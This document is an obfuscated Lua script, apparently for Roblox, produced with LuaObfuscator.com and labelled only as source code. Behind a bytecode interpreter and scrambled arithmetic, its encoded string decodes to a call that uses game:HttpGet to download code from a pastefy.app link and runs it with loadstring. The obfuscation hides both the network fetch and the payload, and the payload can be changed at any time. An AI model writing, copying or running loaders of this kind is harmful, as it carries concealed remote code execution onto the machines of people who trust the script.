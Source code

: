--[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v83=0;while true do if (v83==0) then v19=v0(v3(v30,1,1));return "";end end else local v84=v2(v0(v30,16));if v19 then local v91=0;local v92;while true do if (v91==0) then v92=v5(v84,v19);v19=nil;v91=1;end if (v91==1) then return v92;end end else return v84;end end end);local function v20(v31,v32,v33) if v33 then local v85=0 -(0 + 0) ;local v86;while true do if (v85==((877 -(282 + 595)) -0)) then v86=(v31/(2^(v32-(1 -0))))%((4 -2)^(((v33-(620 -(555 + 64))) -(v32-(932 -(857 + 74)))) + (569 -(367 + 201)))) ;return v86-(v86%1) ;end end else local v87=2^(v32-1) ;return (((v31%(v87 + v87))>=v87) and (928 -(214 + (2350 -(1523 + 114))))) or (0 + 0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=0;local v36;local v37;while true do if (v35==(1 + 0)) then return (v37 * (364 -108)) + v36 ;end if (v35==(1065 -(68 + 997))) then v36,v37=v1(v16,v18,v18 + (1272 -(226 + 1044)) );v18=v18 + (8 -6) ;v35=118 -(32 + 85) ;end end end local function v23() local v38=0 + 0 ;local v39;local v40;local v41;local v42;while true do if (v38==0) then v39,v40,v41,v42=v1(v16,v18,v18 + 1 + 2 );v18=v18 + (961 -(892 + 65)) ;v38=(182 -(67 + 113)) -1 ;end if (v38==((1 + 0) -0)) then return (v42 * 16777216) + (v41 * (120312 -54776)) + (v40 * (606 -(87 + 263))) + v39 ;end end end local function v24() local v43=v23();local v44=v23();local v45=2 -(4 -3) ;local v46=(v20(v44,1 + 0 ,79 -59 ) * ((954 -(802 + 150))^(32 + 0))) + v43 ;local v47=v20(v44,13 + 8 ,31);local v48=((v20(v44,85 -53 )==((3 -2) -0)) and  -(19 -(10 + 8))) or (3 -2) ;if (v47==(442 -(416 + 26))) then if (v46==(0 + 0)) then return v48 * (0 + 0) ;else v47=1 -0 ;v45=(1555 -1117) -(145 + 293) ;end elseif (v47==((3336 -(814 + 45)) -(44 + 386))) then return ((v46==(997 -(915 + 82))) and (v48 * ((2 -1)/(0 + 0)))) or (v48 * NaN) ;end return v8(v48,v47-(1344 -321) ) * (v45 + (v46/((774 -(201 + 571))^(1239 -(1069 + 118))))) ;end local function v25(v49) local v50;if  not v49 then v49=v23();if (v49==(0 -0)) then return "";end end v50=v3(v16,v18,(v18 + v49) -(1 + 0) );v18=v18 + v49 ;local v51={};for v66=1 + 0 , #v50 do v51[v66]=v2(v1(v3(v50,v66,v66)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();while true do local v68=(function() return 0 -0 ;end)();while true do if (v68~=(0 -0)) then else if (v52==(1702 -(1419 + 281))) then local v97=(function() return 0 -0 ;end)();local v98=(function() return;end)();while true do if ((74 -(71 + 3))==v97) then v98=(function() return 1171 -(418 + 753) ;end)();while true do if (0~=v98) then else v59=(function() return {};end)();for v164= #"~",v58 do local v165=(function() return 0;end)();local v166=(function() return;end)();local v167=(function() return;end)();local v168=(function() return;end)();while true do if (v165==(1 + 0)) then v168=(function() return nil;end)();while true do if (v166==(2 -1)) then if (v167== #".") then v168=(function() return v21()~=(0 + 0) ;end)();elseif (v167==(2 -0)) then v168=(function() return v24();end)();elseif (v167== #"asd") then v168=(function() return v25();end)();end v59[v164]=(function() return v168;end)();break;end if (v166==(241 -(187 + 54))) then local v180=(function() return 0;end)();while true do if (v180==1) then v166=(function() return 1 + 0 ;end)();break;end if ((0 + 0)==v180) then v167=(function() return v21();end)();v168=(function() return nil;end)();v180=(function() return 781 -(162 + 618) ;end)();end end end end break;end if (v165==(0 + 0)) then v166=(function() return 0;end)();v167=(function() return nil;end)();v165=(function() return 1 + 0 ;end)();end end end v98=(function() return 1 -0 ;end)();end if (v98==(1 -0)) then v57[ #"asd"]=(function() return v21();end)();v52=(function() return 1 + 2 ;end)();break;end end break;end end end if (v52==(1772 -(1749 + 20))) then for v100= #">",v23() do local v101=(function() return v21();end)();if (v20(v101, #"|", #"~")==(0 + 0)) then local v117=(function() return 1322 -(1249 + 73) ;end)();local v118=(function() return;end)();local v119=(function() return;end)();local v120=(function() return;end)();local v121=(function() return;end)();while true do if ((0 + 0)~=v117) then else v118=(function() return 1145 -(466 + 679) ;end)();v119=(function() return nil;end)();v117=(function() return 1;end)();end if (v117==(1638 -(1373 + 263))) then while true do if (v118== #"[") then local v169=(function() return 0 -0 ;end)();local v170=(function() return;end)();while true do if (0~=v169) then else v170=(function() return 1000 -(451 + 549) ;end)();while true do if (v170==(0 + 0)) then v121=(function() return {v22(),v22(),nil,nil};end)();if (v119==(0 -0)) then local v181=(function() return 0 + 0 ;end)();local v182=(function() return;end)();while true do if (v181~=(0 -0)) then else v182=(function() return 0;end)();while true do if (v182~=(1384 -(746 + 638))) then else v121[ #"xxx"]=(function() return v22();end)();v121[ #"xnxx"]=(function() return v22();end)();break;end end break;end end elseif (v119== #"}") then v121[ #"19("]=(function() return v23();end)();elseif (v119==(1 + 1)) then v121[ #"19("]=(function() return v23() -((2 -0)^(1443 -(41 + 1386))) ;end)();elseif (v119== #"-19") then local v191=(function() return 341 -(218 + 123) ;end)();while true do if ((1581 -(1535 + 46))==v191) then v121[ #"xxx"]=(function() return v23() -((2 + 0)^16) ;end)();v121[ #"xnxx"]=(function() return v22();end)();break;end end end v170=(function() return 1 + 0 ;end)();end if (v170~=(561 -(306 + 254))) then else v118=(function() return 1 + 1 ;end)();break;end end break;end end end if (v118~=(3 -1)) then else local v171=(function() return 0;end)();local v172=(function() return;end)();while true do if (v171~=(1467 -(899 + 568))) then else v172=(function() return 0 -0 ;end)();while true do if (v172==(1 + 0)) then v118=(function() return  #"xxx";end)();break;end if (v172==0) then if (v20(v120, #"{", #"]")== #",") then v121[2 -0 ]=(function() return v59[v121[4 -2 ]];end)();end if (v20(v120,6 -4 ,605 -(268 + 335) )== #">") then v121[ #"nil"]=(function() return v59[v121[ #"19("]];end)();end v172=(function() return 291 -(60 + 230) ;end)();end end break;end end end if ((572 -(426 + 146))==v118) then local v173=(function() return 0;end)();local v174=(function() return;end)();while true do if (v173~=(0 + 0)) then else v174=(function() return 0;end)();while true do if (v174~=(1457 -(282 + 1174))) then else v118=(function() return  #"|";end)();break;end if (v174~=0) then else v119=(function() return v20(v101,3 -1 , #"gha");end)();v120=(function() return v20(v101, #"0313",817 -(569 + 242) );end)();v174=(function() return 1;end)();end end break;end end end if (v118~= #"gha") then else if (v20(v120, #"xxx", #"-19")== #",") then v121[ #"asd1"]=(function() return v59[v121[ #"0313"]];end)();end v54[v100]=(function() return v121;end)();break;end end break;end if ((1 + 0)==v117) then local v160=(function() return 0;end)();while true do if (v160~=1) then else v117=(function() return 5 -3 ;end)();break;end if (v160==0) then v120=(function() return nil;end)();v121=(function() return nil;end)();v160=(function() return 1 + 0 ;end)();end end end end end end for v102= #"]",v23() do v55,v102,v28=(function() return v53(v55,v102,v28);end)();end return v57;end v68=(function() return 1;end)();end if (1~=v68) then else if (v52~=(1025 -(706 + 318))) then else v56=(function() return {};end)();v57=(function() return {v54,v55,nil,v56};end)();v58=(function() return v23();end)();v52=(function() return 1259 -(1043 + 214) ;end)();end if ((0 -0)~=v52) then else local v99=(function() return 1212 -(323 + 889) ;end)();while true do if (v99==1) then v55=(function() return {};end)();v52=(function() return 2 -1 ;end)();break;end if (v99==(580 -(361 + 219))) then v53=(function() return function(v143,v144,v145) local v146=(function() return 1271 -(945 + 326) ;end)();local v147=(function() return;end)();while true do if ((320 -(53 + 267))==v146) then v147=(function() return 0 -0 ;end)();while true do if ((0 + 0)==v147) then local v177=(function() return 700 -(271 + 429) ;end)();local v178=(function() return;end)();while true do if (v177==(0 + 0)) then v178=(function() return 0;end)();while true do if (v178==0) then local v185=(function() return 982 -(18 + 964) ;end)();while true do if (v185==(1500 -(1408 + 92))) then v143[v144-#"!" ]=(function() return v145();end)();return v143,v144,v145;end end end end break;end end end end break;end end end;end)();v54=(function() return {};end)();v99=(function() return 1087 -(461 + 625) ;end)();end end end break;end end end end local function v29(v60,v61,v62) local v63=v60[1];local v64=v60[2 + 0 ];local v65=v60[2 + 1 ];return function(...) local v69=v63;local v70=v64;local v71=v65;local v72=v27;local v73=851 -(20 + (2763 -(565 + 1368))) ;local v74= -(1 + 0);local v75={};local v76={...};local v77=v12("#",...) -(1 + 0) ;local v78={};local v79={};for v88=0,v77 do if ((v88>=v71) or (525==2109)) then v75[v88-v71 ]=v76[v88 + 1 ];else v79[v88]=v76[v88 + (739 -(542 + 196)) ];end end local v80=(v77-v71) + 1 ;local v81;local v82;while true do v81=v69[v73];v82=v81[1 -0 ];if (v82<=3) then if (v82<=((1 -0) + 0 + 0)) then if ((33==33) and (v82==(0 + (856 -(564 + 292))))) then do return;end else v79[v81[2]]=v81[2 + 1 ];end elseif (v82==(4 -2)) then local v105=0 -0 ;local v106;local v107;local v108;local v109;while true do if ((3054<=4015) and (v105==((2675 -1124) -(1126 + 425)))) then v106=v81[407 -(118 + 287) ];v107,v108=v72(v79[v106](v13(v79,v106 + (3 -2) ,v81[3])));v105=1;end if ((1871<3382) and (v105==(1122 -((355 -237) + 1003)))) then v74=(v108 + v106) -(305 -(244 + 60)) ;v109=0 -0 ;v105=379 -(142 + 181 + 54) ;end if ((3926<=4134) and (v105==(9 -7))) then for v161=v106,v74 do v109=v109 + 1 ;v79[v161]=v107[v109];end break;end end else local v110=0 + 0 ;local v111;while true do if (v110==((1453 -(41 + 435)) -(553 + (1425 -(938 + 63))))) then v111=v81[3 -1 ];v79[v111]=v79[v111](v13(v79,v111 + 1 + 0 ,v74));break;end end end elseif (v82<=5) then if (v82>(4 + 0)) then local v112=0 + 0 ;local v113;local v114;while true do if (v112==(1 + 0)) then v79[v113 + 1 + 0 ]=v114;v79[v113]=v114[v81[(7 + 1) -4 ]];break;end if ((1293<=2166) and ((v112==(0 -0)) or (164>=2785))) then v113=v81[2];v114=v79[v81[6 -3 ]];v112=1;end end else v79[v81[1 + (1126 -(936 + 189)) ]]();end elseif (v82<=(28 -22)) then v79[v81[2]]=v62[v81[756 -(239 + 514) ]];elseif ((v82>(3 + 4)) or (2579<123)) then v79[v81[1331 -(797 + 532) ]]={};else local v123;local v124,v125;local v126;local v127;v79[v81[2 + 0 ]]={};v73=v73 + 1 + 0 ;v81=v69[v73];v79[v81[1 + (1614 -(1565 + 48)) ]]=v62[v81[3]];v73=v73 + (2 -1) ;v81=v69[v73];v79[v81[1204 -(373 + 829) ]]=v62[v81[734 -(476 + 255) ]];v73=v73 + (1131 -(369 + 761)) ;v81=v69[v73];v127=v81[2 + 0 ];v126=v79[v81[3]];v79[v127 + (1 -0) ]=v126;v79[v127]=v126[v81[7 -3 ]];v73=v73 + (239 -(64 + 174)) ;v81=v69[v73];v79[v81[1 + 1 ]]=v81[3 -0 ];v73=v73 + (337 -(144 + 119 + 73)) ;v81=v69[v73];v127=v81[2];v124,v125=v72(v79[v127](v13(v79,v127 + (217 -(42 + 174)) ,v81[(1141 -(782 + 356)) + 0 ])));v74=(v125 + v127) -(1 + (267 -(176 + 91))) ;v123=(0 -0) + 0 ;for v156=v127,v74 do v123=v123 + (1505 -(363 + 1141)) ;v79[v156]=v124[v123];end v73=v73 + (1581 -((1743 -560) + 397)) ;v81=v69[v73];v127=v81[5 -3 ];v79[v127]=v79[v127](v13(v79,v127 + 1 + 0 ,v74));v73=v73 + 1 + 0 ;v81=v69[v73];v79[v81[1977 -(1913 + 62) ]]();v73=v73 + 1 + 0 ;v81=v69[v73];do return;end end v73=v73 + (2 -1) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403203Q00682Q7470733A2Q2F706173746566792E612Q702F6D34695650566C722F72617700094Q00077Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
